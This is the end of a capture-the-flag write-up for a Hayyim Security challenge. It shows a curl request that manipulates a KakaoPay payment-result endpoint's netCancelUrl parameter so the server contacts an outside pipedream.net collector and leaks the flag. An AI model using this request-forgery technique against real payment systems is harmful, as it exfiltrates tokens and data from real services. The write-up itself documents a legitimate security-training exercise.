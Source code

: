 ```plaintext
 ⚡ root@pocas  ~  curl http://1.230.253.91:5000/shop/kakaopay/pc_pay_result.php\?authUrl\=http://\&netCancelUrl\=https://6668197e65f7e3f7f5b45ff55a909ddd.m.pipedream.net/\&authToken\=flag\&resultCode\=0000
Http Connect Error
Connection failed (0) Failed to parse address ""Http Connect Error (오류코드:0)## 망취소 API 결과 ##<pre>hsctf{799c12711fd9d697a00ae3e6329a7979cc648d7cdae0fbb3d62f23a1f7c7f544}</pre><br><br>결제 에러가 일어났습니다. 에러 이유는 위와 같습니
다.
```
Finally I got the flags by sending a request like above. 

```plaintext
FLAG : hsctf{799c12711fd9d697a00ae3e6329a7979cc648d7cdae0fbb3d62f23a1f7c7f544}
```

---
Thanks to [Hayyim Security](http://www.hayyimsecurity.com/) for making these fun challenges. It's been a long time since I studied a lot.
